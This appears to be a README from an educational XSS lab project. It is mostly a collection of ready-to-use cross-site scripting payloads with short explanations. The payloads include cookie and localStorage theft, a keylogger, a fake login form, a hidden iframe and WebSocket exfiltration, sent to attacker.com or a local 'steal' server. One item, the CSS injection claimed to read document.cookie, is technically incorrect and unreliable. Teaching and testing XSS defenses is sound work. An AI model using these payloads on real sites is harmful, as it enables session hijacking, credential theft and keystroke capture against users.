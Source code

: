 Here are some **real-world XSS attack examples** that can be used for educational purposes in the project. These examples demonstrate how attackers exploit vulnerabilities to execute malicious scripts.

Tested: 
A) <img src="x" onerror="alert('XSS Attack!')">
b) document.body.innerHTML = '<h1>Hacked by Attacker</h1>';
c) redirecting page:
    <a href="https://www.youtube.com/" target="_blank">Click here</a>
d) staling cookies:
    const img = document.createElement('img'); img.src = 'http://localhost:3000/steal?session=' + document.cookie; document.body.appendChild(img);
e) staling localStorage and sessionStorage:
    const data = {
        localStorage: JSON.stringify(localStorage),
        sessionStorage: JSON.stringify(sessionStorage)
    };
    fetch('http://localhost:3000/steal', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify(data)
    });

### 1. **Stealing Cookies**
Attackers can use XSS to steal session cookies, which can then be used to impersonate a user.

    <img src="x" onerror="document.location='http://attacker.com/steal?cookie=' + document.cookie">

NOTE: change 'http://attacker.com/steal?cookie=' TO 'http://localhost:3000/steal?session=' after running server.js

**Explanation**:
- The `onerror` event triggers when the image fails to load.
- The script sends the user's cookies to the attacker's server.


### 2. **Keylogger**
An attacker can inject a script to log keystrokes and send them to a remote server.

    <script>
        document.addEventListener('keypress', function(e) {
            fetch('http://attacker.com/log', {
                method: 'POST',
                body: JSON.stringify({ key: e.key })
            });
        });
    </script>

**Explanation**:
- The script listens for keypress events.
- Each keypress is sent to the attacker's server.


### 3. **Fake Login Form**
An attacker can inject a fake login form to steal user credentials.

    <form action="http://attacker.com/steal-credentials" method="POST">
        <label for="username">Username:</label>
        <input type="text" id="username" name="username">
        <label for="password">Password:</label>
        <input type="password" id="password" name="password">
        <button type="submit">Login</button>
    </form>

**Explanation**:
- The form submits user credentials to the attacker's server.


### 4. **Redirect to Malicious Site**
Attackers can redirect users to a malicious website.

    <script>window.location = 'http://malicious-site.com';</script>

**Explanation**:
- The script redirects the user to a malicious website.


### 5. **Defacement**
An attacker can modify the content of the page to display offensive or misleading information.

    <script>
        document.body.innerHTML = '<h1>Hacked by Attacker</h1>';
    </script>

**Explanation**:
- The script replaces the entire page content with a custom message.


### 6. **Session Hijacking via Hidden Iframe**
Attackers can use hidden iframes to steal session cookies or perform actions on behalf of the user.

    <iframe src="http://attacker.com/steal-session" style="display:none;"></iframe>

**Explanation**:
- The iframe is hidden using CSS.
- It loads a malicious page that can steal session cookies or perform unauthorized actions.


### 7. **DOM-Based XSS**
Attackers can manipulate the DOM to execute malicious scripts.

    <script>
        const urlParams = new URLSearchParams(window.location.search);
        const param = urlParams.get('input');
        document.body.innerHTML = param;
    </script>

**Explanation**:
- The script reads a parameter from the URL and injects it into the DOM without sanitization.
- This allows attackers to craft a URL with malicious scripts.


### 8. **Event Listener Injection**
Attackers can inject event listeners to execute malicious code.

    <div id="target" onmouseover="alert('XSS via Event Listener')">Hover over me</div>

**Explanation**:
- The `onmouseover` event triggers when the user hovers over the element.
- The injected script executes malicious code.


### 9. **CSS Injection**
Attackers can use CSS to execute malicious actions or exfiltrate data.

    <style>
        body { background: url('http://attacker.com/steal?data=' + document.cookie); }
    </style>

**Explanation**:
- The CSS rule sends cookies or other sensitive data to the attacker's server.


### 10. **WebSocket Hijacking**
Attackers can use WebSockets to exfiltrate data in real-time.

    <script>
        const ws = new WebSocket('ws://attacker.com');
        ws.onopen = () => ws.send(document.cookie);
    </script>

**Explanation**:
- The script opens a WebSocket connection to the attacker's server.
- It sends cookies or other sensitive data over the connection.


### Educational Note
These examples are for **educational purposes only**. They demonstrate the importance of input validation and sanitization to prevent XSS attacks. Always ensure that user input is properly sanitized and escaped before rendering it in the DOM.

